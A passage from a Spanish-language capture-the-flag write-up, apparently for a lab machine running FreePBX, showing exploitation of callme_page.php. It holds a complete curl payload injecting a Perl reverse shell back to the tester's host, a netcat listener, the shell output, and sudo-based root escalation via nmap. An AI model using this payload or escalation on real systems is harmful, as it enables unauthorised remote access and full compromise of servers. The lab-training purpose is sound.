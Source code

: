 Obtenemos una shell con el usuario `asterisk`

```bash
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.7] 37775
whoami
asterisk
```

## INTRUSION PAYLOAD DE 18650.py

Lo que realizamos es una variante del script anterior, detectando el tipo de solicitud que realiza a nivel web y modificando cada uno de los parámetros, agregando los permisos de ejecutar peticiones con cifrados débiles.

Creamos un listener.

```bash
nc -lnvp 4564
```

Ejecutamos la petición modificada.

```bash
curl --ciphers DEFAULT@SECLEVEL=1 --tlsv1.0 -k "https://10.10.10.7/recordings/misc/callme_page.php?action=c&callmenum=233@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%2210.10.14.3%3a4564%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A"
```

Obtenemos una shell con el usuario `asterisk`.

```bash
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.7] 60412
whoami
asterisk
```

## ESCALADA DE PRIVILEGIOS

Una vez que tenemos acceso a la máquina, realizamos el escalamiento de privilegios, en este caso, revisando los permisos a nivel de `sudo`.

```bash
sudo -l
```
```bash
#Resultados
User asterisk may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/bin/yum
    (root) NOPASSWD: /sbin/service
```

_NOTA: Intenta realizar la escalada por cualquiera de estos 3 permisos a modo de ejercicio._

Se identifica que es posible ejecutar el comando `/usr/bin/nmap` con privilegios, por lo que vamos a hacer uso del escalamiento de [GTFObins](https://gtfobins.github.io/gtfobins/nmap/) obteniendo acceso al usuario `root`.
